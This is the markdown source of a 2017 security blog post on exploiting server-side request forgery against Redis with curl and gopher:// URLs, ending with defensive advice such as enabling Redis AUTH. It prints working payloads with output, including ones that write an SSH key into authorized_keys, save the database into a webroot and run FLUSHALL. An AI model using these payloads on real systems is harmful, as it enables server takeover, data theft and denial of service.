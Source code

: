 ```yaml
---
layout: blog-single
title:  curl Based SSRF Exploits Against Redis
description: A look at what's possible with curl access to Redis via an SSRF vulnerability
date: August 14, 2017
image: /img/blog/ssrf-redis/curl-redis-ssrf-hacking.jpg
image_alt: "Exploiting Redis via cURL"
image_width: 2200
image_height: 1100
tags: [Security]
selected: true
position: 10
related_posts:
- "Java Serialized Object Detection"
- "Google Subdomain Discovery For Sites Using Naked Domain"
- "Findings on XML External Entity Behavior in PHP"
---
```


[SSRF (server side request forgery)](https://www.owasp.org/index.php/Server_Side_Request_Forgery) is a type of vulnerability where an attacker is able trick a remote server into sending unauthorized requests. SSRF opens the door to many types of undesirable things such as information disclosure, DoS and RCE. In this post, we'll take a look at the types of exploits that are achievable when we have access to curl Redis via SSRF.

<!-- excerpt_separator -->

### Getting Redis To Execute Our Commands

As documented in [a blog post titled "Trying to hack Redis via HTTP requests" by the French company, Agarri](http://www.agarri.fr/kom/archives/2014/09/11/trying_to_hack_redis_via_http_requests/index.html) if simply we curl Redis, it will interpret each line in the HTTP request as a command....

```
$ curl -v 127.0.0.1:6379 --max-time 1
* Rebuilt URL to: 127.0.0.1:6379/
*   Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to 127.0.0.1 (127.0.0.1) port 6379 (#0)
> GET / HTTP/1.1
> Host: 127.0.0.1:6379
> User-Agent: curl/7.52.1
> Accept: */*
>
-ERR wrong number of arguments for 'get' command
-ERR unknown command 'Host:'
-ERR unknown command 'User-Agent:'
-ERR unknown command 'Accept:'
* Operation timed out after 1002 milliseconds with 148 bytes received
* Curl_http_done: called premature == 1
* stopped the pause stream!
* Closing connection 0
curl: (28) Operation timed out after 1002 milliseconds with 148 bytes received
```

<div class="tout tout--secondary">
<p>:bulb: <strong>TIP</strong>: Note the usage of the <code>max-time</code> flag here. It's important to understand that <a href="https://redis.io/topics/clients#client-timeouts">by default Redis won't close the connection</a> and, <a href="https://curl.haxx.se/libcurl/c/CURLOPT_TIMEOUT.html">without specifying a timeout, neither will curl</a>.</p>
</div>

[Agarri's post](http://www.agarri.fr/kom/archives/2014/09/11/trying_to_hack_redis_via_http_requests/index.html) suggests that we can use HTTP request headers or the request POST body to send malicious payloads. While this sounds good in theory, I couldn't get it to work (if you see something I've done wrong let me know!)...

```
$ curl --trace-ascii /dev/stdout -X POST -H "Content-Type: text/plain" --data "CONFIG SET maxmemory 5" http://127.0.0.1:6379/ --max-time 1
Note: Unnecessary use of -X or --request, POST is already inferred.
== Info:   Trying 127.0.0.1...
== Info: TCP_NODELAY set
== Info: Connected to 127.0.0.1 (127.0.0.1) port 6379 (#0)
=> Send header, 125 bytes (0x7d)
0000: POST / HTTP/1.1
0011: Host: 127.0.0.1:6379
0027: User-Agent: curl/7.52.1
0040: Accept: */*
004d: Content-Type: text/plain
0067: Content-Length: 22
007b:
=> Send data, 22 bytes (0x16)
0000: CONFIG SET maxmemory 5
== Info: upload completely sent off: 22 out of 22 bytes
<= Recv data, 29 bytes (0x1d)
0000: -ERR unknown command 'POST'
<= Recv data, 176 bytes (0xb0)
0000: -ERR unknown command 'Host:'
001e: -ERR unknown command 'User-Agent:'
0042: -ERR unknown command 'Accept:'
0062: -ERR unknown command 'Content-Type:'
0088: -ERR unknown command 'Content-Length:'
-ERR unknown command 'POST'
-ERR unknown command 'Host:'
-ERR unknown command 'User-Agent:'
-ERR unknown command 'Accept:'
-ERR unknown command 'Content-Type:'
-ERR unknown command 'Content-Length:'
== Info: Operation timed out after 1002 milliseconds with 205 bytes received
== Info: Curl_http_done: called premature == 1
== Info: stopped the pause stream!
== Info: Closing connection 0
curl: (28) Operation timed out after 1002 milliseconds with 205 bytes received
$ redis-cli
127.0.0.1:6379> config get maxmemory
1) "maxmemory"
2) "999999999999999"
127.0.0.1:6379>
```

Fortunately, there's another option. Using a trick I learned about in [an SSRF report to Imgur's bug bounty on hackerone](https://hackerone.com/reports/115748), we can send requests to Redis using [the Gopher protocol](https://en.wikipedia.org/wiki/Gopher_(protocol)). 

This is approach is likely more versatile than using the POST body or HTTP request headers in an SSRF scenario as it's more likely that we'll have complete control over the endpoint (including request protocol) than it is that we'll be able to force the HTTP request method, manipulate the post body, or manipulate request headers.

Here's what it would look like to get Redis to divulge its `maxmemory` configuration value.

```
$ curl gopher://127.0.0.1:6379/_CONFIG%20GET%20maxmemory --max-time 1
*2
$9
maxmemory
$15
999999999999999
curl: (28) Operation timed out after 1002 milliseconds with 41 bytes received
```

### What Can We Do With It?

The ability to send commands to Redis opens the door to many nasty exploits. Here are a few...

#### Manipulation of the configuration values to upload a public key

This technique was outlined in [a blog post titled "A few things about Redis security" by Redis' creator Salvatore Sanfilippo (aka antirez)](http://antirez.com/news/96). If we know the the name of a user on the server, we could set the Redis' `dir` to that user's `.ssh/` directory and set the `dbfilename` to `authorized_keys`. We can use `%0D%0A` to issue multiple commands in a single request...

```
$ curl -v gopher://127.0.0.1:6379/_CONFIG%20SET%20dir%20/home/mpchadwick/.ssh%0D%0ACONFIG%20SET%20dbfilename%20authorized_keys --max-time 1
*   Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to 127.0.0.1 (127.0.0.1) port 6379 (#0)
+OK
+OK
* Operation timed out after 1002 milliseconds with 5 bytes received
* Closing connection 0
curl: (28) Operation timed out after 1002 milliseconds with 5 bytes received
```

Next we would use the `SET` command to get Redis to save our public key to its memory, and then finally issue a `SAVE` command to write the public key to the `authorized_keys` file.

This is pretty much game over as the attacker can now SSH directly to the server!

#### Manipulation of the `dir` configuration value to steal the database

With the ability to manipulate the `dir` value, another option would be to update the `dir` to a publicly accessible location (the webroot). For example the attacker could try `/var/www/html`,  the default webroot for Apache on most servers.

```
$ curl gopher://127.0.0.1:6379/_CONFIG%20SET%20dir%20/var/www/html --max-time 1   
*   Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to 127.0.0.1 (127.0.0.1) port 6379 (#0)
+OK
* Operation timed out after 1002 milliseconds with 5 bytes received
* Closing connection 0
curl: (28) Operation timed out after 1002 milliseconds with 5 bytes received
```

The attacker could then trigger another `SAVE` to place `dump.rdb` into the webroot and download the entire database. 

It's very likely that this will give them access to sensitive information such as customer PII (personally identifiable information), database connection credentials or credentials for external API services.

#### DoS

There are countless DoS opportunities with the ability to send arbitrary commands to the Redis instance. The first thing that springs to mind is the repeatedly send `FLUSHALL` commands, preventing Redis from ever effectively storing anything.

```
$ curl -v gopher://127.0.0.1:6379/_FLUSHALL --max-time 1
*   Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to 127.0.0.1 (127.0.0.1) port 6379 (#0)
+OK
* Operation timed out after 1002 milliseconds with 5 bytes received
* Closing connection 0
curl: (28) Operation timed out after 1002 milliseconds with 5 bytes received
```

### Takeaways

As we can see, SSRF can quickly become fatal if the attacker is able to send requests to the Redis instance. In addition to being mindful of potential SSRF exploits within the application codebase during the code review process, it is not advisable to solely rely on network layer security to protect your Redis instance. [Redis' built in AUTH feature](https://redis.io/commands/auth) allows you require a password to speak to Redis which adds an additional layer of protection against potential attackers.
